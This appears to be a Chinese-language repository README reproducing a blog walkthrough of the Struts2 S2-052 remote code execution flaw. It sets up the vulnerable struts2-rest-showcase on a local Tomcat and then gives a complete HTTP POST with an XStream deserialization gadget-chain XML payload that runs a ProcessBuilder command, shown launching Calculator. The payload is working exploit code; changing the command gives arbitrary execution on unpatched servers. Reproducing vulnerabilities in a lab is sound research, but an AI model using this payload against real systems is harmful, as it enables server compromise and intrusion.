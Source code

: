 

# S2-052的POC测试(原名：Tomcat部署war）
原文地址：http://blog.csdn.net/caiqiiqi/article/details/77861477

快照：https://urlscan.io/screenshots/a1d00309-2b07-47ef-8256-5e8d4faa1dd1.png
![](https://urlscan.io/screenshots/a1d00309-2b07-47ef-8256-5e8d4faa1dd1.png)
![](
https://github.com/jas502n/St2-052/blob/master/St2-052%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0.wmv)
从struts2的官网下载最后受影响的版本struts-2.5.12，地址：
http://archive.apache.org/dist/struts/2.5.12/struts-2.5.12-apps.zip
注意下载struts-2.5.12-apps即可，不需要下载struts-2.5.12-all.zip。不然struts-2.5.12-all.zip中包含很多其他的东西，可以看到lib目录下有很多jar包。
![](/image/1.png)
拿到struts-2.5.12-apps之后，将其中的app目录下的struts2-rest-showcase.war文件放到webapps目录下，我的是

/Library/Tomcat-8.5.15/webapps然后设置一下conf/server.xml文件即可。
![](/image/2.png)

这里把appBase设置为webapps目录，然后unpackWARs设置为true，这样就会自动解包xxx.war，autoDeploy也设置为true(热部署?)
然后就可以浏览器访问了。
直接输入
http://127.0.0.1:8080/struts2-rest-showcase/
会跳转，然后出现下面的页面，点击其中一个编辑，
![](/image/3.png)

然后将请求发送到burp，(我由于在FireFox上有代理插件，于是换到FireFox上了)点击”Edit”按钮，然后拦截请求，将请求中的Content-Type的值改为
application/xml,然后POST的数据用PoC中的xml内容代替。

晴天师傅的PoC

```bash
POST /struts2-rest-showcase/orders/3;jsessionid=A82EAA2857A1FFAF61FF24A1FBB4A3C7 HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:54.0) Gecko/20100101 Firefox/54.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/xml
Content-Length: 1663
Referer: http://127.0.0.1:8080/struts2-rest-showcase/orders/3/edit
Cookie: JSESSIONID=A82EAA2857A1FFAF61FF24A1FBB4A3C7
Connection: close
Upgrade-Insecure-Requests: 1

<map> 
<entry> 
<jdk.nashorn.internal.objects.NativeString> <flags>0</flags> <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"> <dataHandler> <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource"> <is class="javax.crypto.CipherInputStream"> <cipher class="javax.crypto.NullCipher"> <initialized>false</initialized> <opmode>0</opmode> <serviceIterator class="javax.imageio.spi.FilterIterator"> <iter class="javax.imageio.spi.FilterIterator"> <iter class="java.util.Collections$EmptyIterator"/> <next class="java.lang.ProcessBuilder"> <command> <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string> </command> <redirectErrorStream>false</redirectErrorStream> </next> </iter> <filter class="javax.imageio.ImageIO$ContainsFilter"> <method> <class>java.lang.ProcessBuilder</class> <name>start</name> <parameter-types/> </method> <name>foo</name> </filter> <next class="string">foo</next> </serviceIterator> <lock/> </cipher> <input class="java.lang.ProcessBuilder$NullInputStream"/> <ibuffer></ibuffer> <done>false</done> <ostart>0</ostart> <ofinish>0</ofinish> <closed>false</closed> </is> <consumed>false</consumed> </dataSource> <transferFlavors/> </dataHandler> <dataLen>0</dataLen> </value> </jdk.nashorn.internal.objects.NativeString> <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/> </entry> <entry> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> 
</entry> 
</map> 
```


成功弹出计算器

![](/image/4.png)


然后可以看到页面一堆报错的

![](/image/5.png)

